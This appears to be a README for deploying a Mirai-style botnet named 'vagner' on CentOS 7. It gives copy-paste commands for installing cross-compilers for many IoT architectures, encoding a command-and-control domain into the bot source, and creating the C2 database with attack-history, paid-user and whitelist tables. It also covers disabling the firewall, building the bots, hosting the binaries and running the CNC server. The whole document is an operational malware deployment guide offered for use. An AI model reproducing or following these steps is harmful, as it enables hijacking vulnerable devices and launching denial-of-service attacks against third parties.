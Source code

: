 # make sure to use centos 7 as your main botnet hosting os
# Copy paste this code and put it all on your terminal all at once: 

yum update -y
yum install epel-release -y
yum install go -y
yum groupinstall "Development Tools" -y
yum install gmp-devel -y
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y

cd /tmp
wget https://go.dev/dl/go1.23.2.src.tar.gz
sudo tar -C /usr/local -xzf go1.23.2.src.tar.gz
export PATH=$PATH:/usr/local/go/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
go version
go env
cd ~/

mkdir /etc/xcompile
cd /etc/xcompile

wget https://github.com/foss-for-synopsys-dwc-arc-processors/toolchain/releases/download/arc-2017.09-release/arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/mini-native-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/mini-nativearmv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/mini-native-armv7l.tar.bz2

tar -xf arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
tar -jxf mini-native-i586.tar.bz2
tar -jxf mini-native-m68k.tar.bz2
tar -jxf mini-native-mips.tar.bz2
tar -jxf mini-native-mipsel.tar.bz2
tar -jxf mini-native-powerpc.tar.bz2
tar -jxf mini-native-sh4.tar.bz2
tar -jxf mini-native-sparc.tar.bz2
tar -jxf mini-native-armv4l.tar.bz2
tar -jxf mini-native-armv5l.tar.bz2
tar -jxf mini-native-armv6l.tar.bz2
tar -jxf mini-native-armv7l.tar.bz2

rm -rf *.tar.bz2
rm -rf *.tar.gz

mv arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install arc
mv mini-native-i586 i586
mv mini-native-m68k m68k
mv mini-native-mips mips
mv mini-native-mipsel mipsel
mv mini-native-powerpc powerpc
mv mini-native-sh4 sh4
mv mini-native-sparc sparc
mv mini-native-armv4l armv4l
mv mini-native-armv5l armv5l
mv mini-native-armv6l armv6l
mv mini-native-armv7l armv7l


# Domain (you need a domain on cloudflare )
``` put server ip on the cloudflare dns and make it non proxied ```
``` use the enc.c file to encode your domain // ```
``` compail the enc.c file : "gcc enc.c -o enc" ```
``` use it like that ex my domain is https://vagner.com >> ./enc string vagner.com```
``` Copy the string that enc generates and past it on /bot/table.c line: 20 and 21 ```
***    add_entry(TABLE_CNC_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here  ***
***    add_entry(TABLE_SCAN_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here ***
``` change ip on /cnc/main.go line 19 from 0.0.0.0 into your vps ip```
``` change ip on /bot/headers/includes.h line 27 from 0.0.0.0 into your vps ip```


# We will setup the database, run these commands on your terminal:

yum install mariadb-server -y
service mariadb restart

# setup mariadb password 
mysql_secure_installation

# Now Login with your mysql pass by running this command:

mysql -u root -p**mypasswordhere**

# Now we will add the database, copy and paste this on your terminal:

CREATE DATABASE vagner;
use vagner;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'root', '7607', 0, 0, 0, 0, -1, 1, 30, '');
exit;

# stting up db infos
go to /cnc/main.go and change 
`const DatabasePass string = "passwordhere"`
line 19 into your dataaabase password


# Now your database is complete, we will restart and disable services:

service iptables stop 
service httpd restart  
service mariadb restart

# Alright, we have to compile the bot and screen the cnc server by doing this:

cd ~/
chmod 777 *
sh build.sh

# Run the cnc
screen -dm cnc ./admin

or

screen -S cnc ./admin
then click ctrl + a+d

# connecting to our botnet
download client like putty/mobaxterm/kitty/ubuntu
ex : https://putty.org/
ex on how to connect:
https://cdn.discordapp.com/attachments/1130914352250224775/1133719572239876156/image.png

# cnc port
`1337`
# cnc security code
`vagner`
# bot port
`1337`
# bot folder
`/var/www/html/bins`